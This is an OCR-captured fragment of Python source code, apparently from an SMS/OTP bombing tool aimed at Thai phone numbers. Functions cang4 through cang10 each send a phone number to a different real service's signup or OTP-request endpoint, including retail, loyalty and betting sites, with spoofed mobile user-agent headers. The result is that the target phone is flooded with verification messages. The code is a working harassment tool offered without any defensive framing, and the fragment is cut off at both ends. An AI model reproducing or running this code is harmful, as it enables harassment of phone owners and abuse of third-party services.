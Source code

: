     "value": phone,

    "country": "66"

  },

  "type": "mobile"

},headers={"accept":"application/json, text/plain, */*","user-agent":"Mozilla/5.0 (Linux; Android 11; V2043) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.106 Mobile Safari/537.36","content-type":"application/json;charset=UTF-8"}) 



def cang4(phone):

    post("https://ecomapi.eveandboy.com/v10/user/signup/phone", data={"phone": f"{phone[1:]}","password":"123456789Az"})

    

def cang5(phone):

    post("https://gccircularlivingshop.com/sms/sendOtp", json={"grant_type":"otp","username": "+66"+phone,"password":"","client":"ecommerce"})

    

def cang6(phone):

    post("https://the1web-api.the1.co.th/api/t1p/regis/requestOTP", json={"on":{"value": phone,"country":"66"},"type":"mobile"})



def cang7(phone):

    post("https://m.lucabet168.com/api/register-otp",json={"brands_id":"609caede5a67e5001164b89d","agent_register":"60a22f7d233d2900110070d7","tel": phone})

    

def cang8(phone):

    post("https://store.boots.co.th/api/v1/guest/register/otp",json={"phone_number": phone})

    

 

    

def cang9(phone):

    post("https://m.lavagame168.com/api/register-otp",headers={"x-exp-signature": "5ffc0caa4d603200124e4eb1","user-agent": "Mozilla/5.0 (Linux; Android 10; Redmi 8A) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.85 Mobile Safari/537.36","referer": "https://m.lavagame168.com/dashboard/login"},json={"brands_id":"5ffc0caa4d603200124e4eb1","agent_register":"5ffc0d5cdcd4f30012aec3d9","tel": phone})

    

def cang10(phone):

    post("https://ep789bet.net/auth/send_otp", data={"phone":f"{phone}"})

    

def cang11(phone):
